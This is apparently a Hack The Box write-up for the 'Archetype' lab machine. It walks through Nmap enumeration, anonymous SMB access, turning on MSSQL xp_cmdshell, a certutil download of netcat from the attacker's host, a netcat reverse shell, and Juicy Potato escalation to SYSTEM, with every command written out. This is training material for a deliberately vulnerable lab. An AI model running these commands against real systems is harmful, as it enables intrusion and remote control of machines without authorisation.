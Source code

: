 ## Hack The Box - Archetype Writeup

**Difficulty:** Easy
**OS:** Windows
**Date Completed:** July 2025

---

### Overview

Archetype is an easy Windows machine on Hack The Box that focuses on exploiting an exposed MSSQL service, followed by privilege escalation using SeImpersonate privileges with Juicy Potato. The machine is a great introduction to Windows enumeration, database exploitation, and privesc.

---

### Initial Enumeration

Ran an Nmap scan:

```
nmap -sC -sV -Pn -oN nmap.txt 10.10.10.27
```

Found the following open ports:

* 135 (RPC)
* 139, 445 (SMB)
* 1433 (MSSQL)

SMB shares were accessible without creds:

```
smbclient \\10.10.10.27\backups
```

Inside, there was a backup file:

```
get prod.dbo.backup
```

---

### MSSQL Access

Using `mssqlclient.py` from Impacket:

```
python3 mssqlclient.py sql_svc@10.10.10.27 -windows-auth
```

Enabled command execution with xp\_cmdshell:

```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```

Confirmed RCE as user `sql_svc`.

---

### Reverse Shell

Uploaded netcat to the box:

```
EXEC xp_cmdshell 'certutil -urlcache -f http://<my-ip>/nc.exe nc.exe';
```

Set up listener:

```
nc -lvnp 4444
```

Triggered reverse shell:

```
EXEC xp_cmdshell 'nc.exe <my-ip> 4444 -e cmd.exe';
```

Shell landed as `sql_svc`.

---

### User Flag

Located in:

```
C:\Users\sql_svc\Desktop\user.txt
```

Copied and submitted.

---

### Privilege Escalation

Checked privileges:

```
whoami /priv
```

Found `SeImpersonatePrivilege` enabled. Perfect for Juicy Potato.

Uploaded Juicy Potato:

```
certutil -urlcache -f http://<my-ip>/JuicyPotato.exe jp.exe
```

Ran the exploit:

```
jp.exe -l 1337 -p cmd.exe -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

Connected to localhost to get SYSTEM shell:

```
nc 127.0.0.1 1337
```

---

### Root Flag

Located in:

```
C:\Users\Administrator\Desktop\root.txt
```

Captured and submitted.

---

### Final Thoughts

This was a really solid Windows beginner box. MSSQL exploitation and privilege escalation via SeImpersonate are useful real-world skills, and Archetype gives you a clean, direct path to learn both. Great box for anyone new to Hack The Box or Windows exploitation.

proof of pwn - https://labs.hackthebox.com/achievement/machine/2424577/287
